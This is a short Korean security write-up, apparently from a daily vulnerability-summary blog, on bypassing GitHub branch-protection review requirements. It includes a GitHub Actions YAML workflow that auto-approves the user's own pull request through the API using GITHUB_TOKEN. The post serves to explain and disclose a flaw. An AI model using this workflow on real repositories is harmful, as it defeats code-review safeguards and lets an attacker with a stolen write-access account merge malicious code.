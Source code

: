 ```yaml
---
title: "[하루한줄] Bypassing required reviews using GitHub Actions"
author: Fabu1ous
tags: [Fabu1ous, github, organization, action, workflow]
categories: [1day1line]
date: 2021-10-19 14:00:00
cc: true
index_img: /img/1day1line.png


---
```




## URL

[Bypassing required reviews using GitHub Actions](https://medium.com/cider-sec/bypassing-required-reviews-using-github-actions-6e1b29135cc7)



## **Target**

GitHub

GitHub action

GitHub organization



## **Explain**

GitHub action을 사용해 GitHub organization의 branch protection rule을 무시하고 repo에 직접 코드를 push할 수 있는 취약점입니다.

GitHub organization은 동시에 여러 프로젝트에 걸쳐 협업할 수 있는 공유 계정입니다. 많은 유저들이 저마다 권한을 갖고 organization 멤버로 포함될 수 있습니다. Write 권한을 갖는 유저는 repo에 직접 코드를 push할 수 있는 권한이 있습니다.

하지만 해커가 Wrtie 권한을 갖는 계정을 탈취하고 repo에 직접 코드를 push하는 상황을 방지하기 위해 pull request를 생성하고 특정 멤버가 해당 pull request를 review 한뒤 merge 하는 branch protection rule을 사용할 수 있습니다.  당연히 자신이 생성한 pull request를 직접 리뷰하고 승인할 수 없습니다.

하지만 문제는 Write 권한이 있는 유저라면 GitHub action을 사용해 repo에 대해 workflow 파일을 실행할 수 있고, 다음과 같은 내용이 포함된 워크플로우와 함께 코드를 새로운 remote branch에 푸시하면 자기 자신의 pull request를 직접 승인할 수 있습니다.

```yaml
name: APPROVE
 
on: pull_request # run on pull request events
 
permissions:
 pull-requests: write # grant write permission on the pull-requests endpoint
jobs:
 approve:
   runs-on: ubuntu-latest
 
   steps:
     - run: | # approve the pull request
         curl --request POST \\
         --url <https://api.github.com/repos/${{github.repository}>}/pulls/${{github.event.number}}/reviews \\
         --header 'authorization: Bearer ${{ secrets.GITHUB_TOKEN }}' \\
         --header 'content-type: application/json' \\
         -d '{"event":"APPROVE"}'
```

타겟 repo의 쓰기권한 계정을 탈취한 해커는 해당 취약점을 악용해 악성 코드를 push하고 직접 merge할 수 있습니다.